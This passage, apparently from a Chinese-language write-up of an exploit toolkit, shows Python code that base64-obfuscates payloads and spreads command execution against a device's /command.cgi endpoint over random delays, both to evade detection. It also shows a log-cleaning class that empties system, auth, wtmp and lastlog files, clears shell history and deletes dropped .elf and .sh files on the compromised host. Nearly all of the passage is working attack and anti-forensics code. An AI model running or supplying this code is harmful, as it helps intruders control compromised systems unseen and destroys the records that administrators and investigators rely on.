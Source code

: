 ```python
        # 编码payload避免特征检测
        if 'data' in kwargs:
            kwargs['data'] = self.obfuscate_payload(kwargs['data'])
        
        return self.http_request(method, path, **kwargs)
    
    def obfuscate_payload(self, payload):
        """Payload混淆"""
        # Base64编码
        if isinstance(payload, str):
            payload = payload.encode()
        
        encoded = base64.b64encode(payload).decode()
        return {'data': encoded, 'type': 'base64'}
    
    def fragmented_execution(self, commands):
        """分段执行命令避免检测"""
        for cmd in commands:
            self.stealth_request("POST", "/command.cgi", data={"cmd": cmd})
            time.sleep(random.uniform(2, 6))
```

### 2. 日志清理模块

```python
class LogCleaner:
    """自动化日志清理"""
    
    def __init__(self, exploit_module):
        self.exploit = exploit_module
    
    def clean_all_logs(self):
        """清理多种日志文件"""
        log_files = [
            "/var/log/messages",
            "/var/log/syslog", 
            "/var/log/httpd_access.log",
            "/var/log/auth.log",
            "/tmp/access_log"
        ]
        
        cleanup_commands = [
            "dmesg -c",
            "history -c",
            "echo '' > /var/log/wtmp",
            "echo '' > /var/log/lastlog"
        ]
        
        # 清理日志文件
        for log_file in log_files:
            self.exploit.run(f"echo '' > {log_file}")
        
        # 执行清理命令
        for cmd in cleanup_commands:
            self.exploit.run(cmd)
        
        # 删除临时文件
        self.exploit.run("find /tmp -name '*.elf' -delete")
        self.exploit.run("find /var/tmp -name '*.sh' -delete")
```

---